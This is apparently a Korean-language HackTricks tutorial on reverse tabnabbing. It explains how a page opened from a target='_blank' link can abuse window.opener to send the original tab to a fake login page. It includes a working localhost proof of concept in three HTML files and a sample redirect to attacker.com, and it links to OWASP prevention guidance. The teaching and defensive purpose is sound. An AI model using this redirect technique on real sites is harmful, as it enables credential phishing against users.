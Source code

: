 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# 설명

**공격자**가 **피해자**가 클릭할 **`<a`** 태그의 **`href`** 인자를 **제어**할 수 있는 상황에서, **공격자**는 이 **링크**를 자신의 제어 하에 있는 웹( **악성** **웹사이트**)으로 **지정**합니다. 그런 다음, **피해자가 링크를 클릭**하고 공격자의 웹사이트에 접근하면, 이 **악성** **웹사이트**는 **자바스크립트** 객체 **`window.opener`**를 통해 **원래** **페이지**를 **제어**할 수 있습니다.\
페이지에 **`rel="opener"`**가 없지만 **`target="_blank"`**가 포함되어 있고 **`rel="noopener"`**가 없으면, 또한 취약할 수 있습니다.

이 행동을 악용하는 일반적인 방법은 `window.opener.location = https://attacker.com/victim.html`을 통해 **원래 웹의 위치**를 공격자가 제어하는 웹으로 **변경**하는 것입니다. 이 웹은 **원래 웹사이트**처럼 보이도록 **구성**되어, **로그인** **폼**을 **모방**하고 사용자에게 자격 증명을 요청할 수 있습니다.

그러나 **공격자가 이제 원래 웹사이트의 윈도우 객체를 제어할 수 있으므로**, 그는 이를 다른 방법으로 악용하여 **은밀한 공격**을 수행할 수 있습니다(아마도 자바스크립트 이벤트를 수정하여 그가 제어하는 서버로 정보를 유출할 수 있겠죠?).

# 개요

## 백 링크가 있는 경우

예방 속성이 사용되지 않을 때 부모 페이지와 자식 페이지 간의 링크:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITH_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITH\_LINK.png)

## 백 링크가 없는 경우

예방 속성이 사용될 때 부모 페이지와 자식 페이지 간의 링크:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITHOUT_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITHOUT\_LINK.png)

## 예시 <a href="#examples" id="examples"></a>

다음 페이지를 폴더에 생성하고 `python3 -m http.server`로 웹 서버를 실행합니다.\
그런 다음, **접근** `http://127.0.0.1:8000/`vulnerable.html, **클릭**하여 **원래** **웹사이트** **URL**이 **변경**되는 것을 확인합니다.

{% code title="vulnerable.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>Victim Site</h1>
<a href="http://127.0.0.1:8000/malicious.html" target="_blank" rel="opener">Controlled by the attacker</a>
</body>
</html>
```
{% endcode %}

{% code title="malicious.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<script>
window.opener.location = "http://127.0.0.1:8000/malicious_redir.html";
</script>
</body>
</html>
```
{% endcode %}

{% code title="malicious_redir.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>New Malicious Site</h1>
</body>
</html>
```
{% endcode %}

## 접근 가능한 속성 <a href="#accessible-properties" id="accessible-properties"></a>

**교차 출처** 접근이 발생하는 시나리오에서는, **opener** JavaScript 객체 참조로 지칭되는 **window** JavaScript 클래스 인스턴스의 속성에 대해 악의적인 사이트가 접근할 수 있는 것은 다음과 같습니다:

- **`opener.closed`**: 이 속성은 창이 닫혔는지 여부를 확인하기 위해 접근되며, 불리언 값을 반환합니다.
- **`opener.frames`**: 이 속성은 현재 창 내의 모든 iframe 요소에 대한 접근을 제공합니다.
- **`opener.length`**: 현재 창에 존재하는 iframe 요소의 수를 반환합니다.
- **`opener.opener`**: 현재 창을 연 창에 대한 참조를 이 속성을 통해 얻을 수 있습니다.
- **`opener.parent`**: 이 속성은 현재 창의 부모 창을 반환합니다.
- **`opener.self`**: 이 속성은 현재 창 자체에 대한 접근을 제공합니다.
- **`opener.top`**: 이 속성은 가장 상위의 브라우저 창을 반환합니다.

그러나 도메인이 동일한 경우, 악의적인 사이트는 [**window**](https://developer.mozilla.org/en-US/docs/Web/API/Window) JavaScript 객체 참조에 의해 노출된 모든 속성에 접근할 수 있습니다.

# 예방

예방 정보는 [HTML5 Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/HTML5\_Security\_Cheat\_Sheet.html#tabnabbing)에 문서화되어 있습니다.

## 참고 문헌

* [https://owasp.org/www-community/attacks/Reverse_Tabnabbing](https://owasp.org/www-community/attacks/Reverse_Tabnabbing)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
